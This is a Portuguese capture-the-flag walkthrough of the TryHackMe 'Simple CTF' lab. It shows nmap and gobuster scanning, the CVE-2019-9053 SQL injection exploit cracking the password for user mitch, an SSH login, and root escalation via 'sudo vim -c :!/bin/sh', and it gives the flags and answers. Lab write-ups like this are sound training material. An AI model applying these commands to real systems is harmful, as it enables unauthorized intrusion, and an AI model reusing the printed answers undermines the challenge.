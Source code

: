 # Simple CTF

## config VPN

- [https://tryhackme.com/access](https://tryhackme.com/access)

![Untitled](Untitled.png)

```bash
	sudo openvpn file.ovpn
```

![Untitled](Untitled%201.png)

![Untitled](Untitled%202.png)

## How many services are running under port 1000?

```bash
sudo nmap -n -sV -O -A 10.10.6.14
```

- Perceba que o ssh tem modo anonimous
- Entao se quiser entrar sinta-se a vontade

```bash
fta 10.10.6.14
```

- `2`

## What is running on the higher port?

- `ssh`

## What's the CVE you're using against the application?

```bash
gobuster -u http://10.10.6.14/ -w /home/fabis/important/ArquivosH/wordlist/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

- [`http://10.10.161.147/simple/`](http://10.10.161.147/simple/)

![Untitled](Untitled%203.png)

- Procurando uma CVE por essa versao

![Untitled](Untitled%204.png)

![Untitled](Untitled%205.png)

- `CVE-**2019-9053**`

## To what kind of vulnerability is the application vulnerable?

- `SQLI`

## What's the password?

- [`http://10.10.6.14/simple/admin/login.php`](http://10.10.6.14/simple/admin/login.php)
- Baixando a CVE que achamos
- Vendo o Codigo ele da um exemplo
    
    ![Untitled](Untitled%206.png)
    
- Entao
    - O Python3 nao funciona
    
    ```bash
    python2 exploit.py -u http://10.10.6.14/simple/ --crack -w wordlist/SecLists-master/Passwords/darkweb2017-top100.txt
    ```
    
    ![Untitled](Untitled%207.png)
    
- Pra isso vamos instalar o que precisa, `importrequests`
    
    ```bash
    pip2 install requests
    ```
    
    ![Untitled](Untitled%208.png)
    
- Entao vamos instalar esse `termcolor`
    
    ```bash
    pip2 install termcolor
    ```
    
- Agora sim
    
    ```bash
    python2 exploit.py -u http://10.10.6.14/simple/ --crack -w wordlist/SecLists-master/Passwords/darkweb2017-top100.txt
    ```
    
    ![Untitled](Untitled%209.png)
    
- Vamos procurar que tipo de senha eh essa
    - [https://www.kali.org/tools/hash-identifier/](https://www.kali.org/tools/hash-identifier/)
    
    ```bash
    python hash-id.py
    ```
    
- Agora vamos colocar a `Password found` no hadh-id
    
    ![Untitled](Untitled%2010.png)
    
- Entao como provavelmente uma criptografia de md5
- Vamos crackear esse md5
- Vamos procurar `md5 crack salt` pois temos o salt
    - [https://www.dcode.fr/md5-hash](https://www.dcode.fr/md5-hash)
    
    ![Untitled](Untitled%2011.png)
    
- Agora temos a senha `secret` de `mitch`

## Where can you login with the details obtained?

- Agora vamos logar no shh
- Eh possivel tambem entrar no site agora
- `ssh`

## What's the user flag?

```bash
ssh mitch@10.10.6.14 -p 2222
secret
whoami
ls
cat user*
```

![Untitled](Untitled%2012.png)

- `G00d j0b, keep up!`

## Is there any other user in the home directory? What's its name?

```bash
ls /home
```

![Untitled](Untitled%2013.png)

- `sunbath`

## What can you leverage to spawn a privileged shell?

```bash
sudo -l
```

![Untitled](Untitled%2014.png)

- `vim`

## What's the root flag?

- Vamos procurar uma elevacao de privilegio com o vim
    - privilege escalation vim
    - [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)
- Entao vamos usar o comando com `sudo` na frente claro
    
    ```bash
    sudo vim -c ':!/bin/sh'
    ```
    
    ![Untitled](Untitled%2015.png)
    
    - Batar dar <ENTER> quando ele mostrar esses caracteres

```bash
ls /root
cat /root/root.txt
```

- `W3ll d0n3. You made it!`

---

- Se quiser sair do vim
    
    ```bash
    <ESC> or <INS>
    :q!
    ```